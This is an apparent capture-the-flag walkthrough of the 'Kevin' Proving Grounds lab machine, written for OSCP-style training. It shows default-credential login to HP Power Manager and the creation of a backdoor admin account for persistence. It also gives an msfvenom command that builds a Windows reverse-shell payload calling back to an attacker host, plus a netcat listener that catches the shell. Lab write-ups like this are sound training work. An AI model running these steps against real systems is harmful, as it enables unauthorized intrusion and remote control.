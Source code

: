 ```yaml
---
title: Kevin Walkthrough - Proving Grounds
description: Walkthrough of the Kevin machine from Proving Grounds
author: Cyber Operator
date: 2024-07-25T16:55:50.565Z
tags:
  - Exploitable
---
```

# Kevin Walkthrough

This machine is classified as "Easy" under Proving Grounds.  It is a machine meant for practicing pentest in general or certification training, such as OSCP and others.

## 1. Nmap Scan:

We start with an Nmap version scan with the vuln script accross all ports

`nmap -sC -sV --script vuln -p- [target IP]`

![](/static/img/screenshot-2024-07-25-at-2.07.39 pm.png)

![](/static/img/screenshot-2024-07-25-at-2.08.47 pm.png)

Several things jump out, including a potential Remote Execution vulnerability.  Before going into that, let's recon the page at port 80 (GoAhead Webserver).  We start here, because it is literally an invitation to "Go Ahead":

We see a login for "HP Power Manager"

![](/static/img/screenshot-2024-07-25-at-1.05.04 pm.png)

As usual, we try to find default credentials:

![](/static/img/screenshot-2024-07-25-at-1.06.46 pm.png)

Let's try it out:

And using the admin:admin combination, we are logged in!

![](/static/img/screenshot-2024-07-25-at-1.08.05 pm.png)

While we are at it, let's create a new user in the app.  We'll make them an administrator.  This allows us to get back in the app if in the future an admin decides to actually change the default password.  We create user groot:iamgroot

![](/static/img/screenshot-2024-07-25-at-2.05.25 pm.png)



That gives us a surface to consider.  Before doing that, let's also zero in on the SMB vulnerability that we saw from the nmap scan:

![](/static/img/screenshot-2024-07-25-at-1.09.37 pm.png)

 

**NOTE: We are jumping around between potential vulnerabilities on purpose. I have not worked on this machine before and am writing the walkthrough real-time. I don't know which one of these vulnerabilities can be exploited or which one to work on first.  The thought process is what counts. In the real world (and in certification exams) there are vulnerabilities that are rabbit holes that sometimes hide the real gems.  The idea is to document everything you see as you work and see which vulnerability pays off faster/easier.  With that out of the way, let's continue!**

Let's look on searchsploit:

![](/static/img/screenshot-2024-07-25-at-1.18.34 pm.png)

Those are some exploits to consider.  To close the loop and for throroughness, let's check out more info on the  HP Power Manager.  We already discovered that it has default credentials and we also created our own user "groot".  There may be even more attack surfaces!

We do a simple Google search and find that there may be a buffer overflow vulnerability!

![](/static/img/screenshot-2024-07-25-at-2.25.48 pm.png)

And this is confirmed at exploit-db:

![](/static/img/screenshot-2024-07-25-at-2.28.06 pm.png)

Ok, that is enough exploring (at least for now).  Time to exploit!

## Exploitation:

We already saw the exploit that we found through a Google search.  Another way (without using a browser) is to use searchsploit again:

`searchsploit HP Power Manager`

![](/static/img/screenshot-2024-07-25-at-3.45.31 pm.png)

To download the exploit, we use

`searchsploit -m windows/remote/10099.py`

![](/static/img/screenshot-2024-07-25-at-3.49.23 pm.png)

Looking at the code for the exploit, we see that we need to use msvenom to generate shellcode (replace the default on the exploit file).

![](/static/img/screenshot-2024-07-25-at-3.52.28 pm.png)

Using msfvenom (and the bad string provided in the exploit code, we will use this command to generate our shellcode:

msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.49.60 LPORT=4444 -e x86/alpha_mixed -f c

This generates our shellcode

![](/static/img/screenshot-2024-07-25-at-5.44.18 pm.png)

Then, we paste our shellcode into the exploit file, replacing the previous version:

![](/static/img/screenshot-2024-07-25-at-5.45.47 pm.png)

Now we are ready, so we use a new terminal window to open a netcat listener with this command:

`nc -nlvp 4444`

On a separate window, we run the exploit file (I got errors using python3, so tried python2:

![](/static/img/screenshot-2024-07-25-at-5.50.39 pm.png)

We go to our netcat listener and we got a reverse shell! The shell is privileged so escalation is not required.

![](/static/img/screenshot-2024-07-25-at-5.53.00 pm.png)

Now we look for the flag.

![](/static/img/screenshot-2024-07-25-at-5.57.44 pm.png)

All done!
